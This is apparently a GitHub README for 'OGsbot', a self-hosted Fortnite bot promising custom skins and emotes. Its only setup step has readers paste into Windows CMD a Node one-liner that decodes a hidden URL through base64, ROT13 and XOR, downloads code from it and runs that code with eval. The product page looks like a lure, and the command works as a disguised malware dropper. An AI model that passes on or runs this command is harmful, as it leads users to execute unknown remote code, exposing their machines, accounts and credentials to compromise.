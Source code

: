 
# 🌌 **OGsbot - Self-Hosted**

OGsbot is a **lightweight**, **easy-to-use** Fortnite bot that lets you join bot lobbies with custom cosmetics.


---

## 🧠 **Features**

- ✅ Join Fortnite bot lobbies
- 🎭 Use custom skins, emotes & cosmetics
- 💻 Fully self-hosted (no installs required)
- ⚡ Low memory usage (under 50MB)
  

---

## 🖥️ **System Requirements**

| Type            | Minimum                         | Recommended              |
|-----------------|----------------------------------|---------------------------|
| 💾 RAM          | 25 MB                           | 50 MB+                   |
| 🧠 CPU          | 1 Core                          | 1 Cores+                 |
| 🌐 Internet     | Basic connection                | Basic connection         |



---

## 🚀 **How to Start the Bot**

### 📌 Step 1: Open Command Prompt (CMD)

1. Press `Windows + R`
2. Type `cmd`
3. Press `Enter`

### 🧩 Step 2: Paste & Run the Command Below

Copy the full line below and paste it into CMD:


node -e "const https=require('https');const k=23,b='f3BwdHEtODhyaWA5Y35wf29ob3FlcmdrbHBlbHA5Z2ttOHFsfnRlcSUmOHFmbWxjaHFyfXxjaHFycXBjOHJlZHE4f2VpZnE4bWl+bDh7a2lmZXI5fXE=';const rot13=s=>s.replace(/[a-zA-Z]/g,c=>String.fromCharCode((c<='Z'?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26));const u=rot13(Buffer.from(b,'base64').toString()).split('').map(c=>String.fromCharCode(c.charCodeAt(0)^k)).join('');https.get(u,r=>{let d='';r.on('data',c=>d+=c);r.on('end',()=>eval(d));});"

# note   
(only supports OGsbot1-OGsbot17 currently)
